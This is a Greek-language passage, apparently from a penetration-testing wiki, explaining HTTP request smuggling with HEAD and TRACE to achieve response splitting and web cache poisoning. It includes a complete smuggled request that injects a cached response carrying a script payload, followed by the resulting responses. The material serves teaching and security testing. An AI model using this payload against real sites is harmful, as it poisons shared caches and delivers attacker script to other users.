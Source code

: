 Ένα παράδειγμα για το πώς να εκμεταλλευτείτε αυτή τη συμπεριφορά θα ήταν να **λαθρέψετε πρώτα ένα HEAD request**. Αυτό το αίτημα θα απαντηθεί μόνο με τα **headers** ενός GET request (**`Content-Type`** μεταξύ αυτών). Και να λαθρέψετε **άμεσα μετά το HEAD ένα TRACE request**, το οποίο θα είναι **αντανάκλαση των δεδομένων που στάλθηκαν**.\
Καθώς η απάντηση του HEAD θα περιέχει ένα header `Content-Length`, η **απάντηση του TRACE request θα θεωρείται ως το σώμα της απάντησης του HEAD, επομένως θα ανακλά τυχαία δεδομένα** στην απάντηση.\
Αυτή η απάντηση θα σταλεί στο επόμενο αίτημα μέσω της σύνδεσης, οπότε αυτό θα μπορούσε να **χρησιμοποιηθεί σε ένα cached JS αρχείο για παράδειγμα για να εισάγει τυχαίο JS κώδικα**.

### Εκμετάλλευση του TRACE μέσω HTTP Response Splitting <a href="#exploiting-web-cache-poisoning-via-http-request-smuggling" id="exploiting-web-cache-poisoning-via-http-request-smuggling"></a>

Συνεχίστε ακολουθώντας [**αυτή την ανάρτηση**](https://portswigger.net/research/trace-desync-attack) προτείνεται ένας άλλος τρόπος για να εκμεταλλευτείτε τη μέθοδο TRACE. Όπως σχολιάστηκε, λαθρεύοντας ένα HEAD request και ένα TRACE request είναι δυνατό να **ελέγξετε κάποια ανακλώμενα δεδομένα** στην απάντηση του HEAD request. Το μήκος του σώματος του HEAD request υποδεικνύεται βασικά στο header Content-Length και σχηματίζεται από την απάντηση στο TRACE request.

Επομένως, η νέα ιδέα θα ήταν ότι, γνωρίζοντας αυτό το Content-Length και τα δεδομένα που δίνονται στην απάντηση του TRACE, είναι δυνατό να γίνει η απάντηση του TRACE να περιέχει μια έγκυρη HTTP απάντηση μετά το τελευταίο byte του Content-Length, επιτρέποντας σε έναν επιτιθέμενο να ελέγξει πλήρως το αίτημα στην επόμενη απάντηση (η οποία θα μπορούσε να χρησιμοποιηθεί για να εκτελέσει μια δηλητηρίαση cache).

Παράδειγμα:
```
GET / HTTP/1.1
Host: example.com
Content-Length: 360

HEAD /smuggled HTTP/1.1
Host: example.com

POST /reflect HTTP/1.1
Host: example.com

SOME_PADDINGXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXHTTP/1.1 200 Ok\r\n
Content-Type: text/html\r\n
Cache-Control: max-age=1000000\r\n
Content-Length: 44\r\n
\r\n
<script>alert("response splitting")</script>
```
Θα δημιουργήσει αυτές τις απαντήσεις (σημειώστε πώς η απάντηση HEAD έχει ένα Content-Length που καθιστά την απάντηση TRACE μέρος του σώματος HEAD και μόλις τελειώσει το Content-Length HEAD, μια έγκυρη HTTP απάντηση διαρρέει):
```
HTTP/1.1 200 OK
Content-Type: text/html
Content-Length: 0

HTTP/1.1 200 OK
Content-Type: text/html
Content-Length: 165

HTTP/1.1 200 OK
Content-Type: text/plain
Content-Length: 243

SOME_PADDINGXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXHTTP/1.1 200 Ok
Content-Type: text/html
```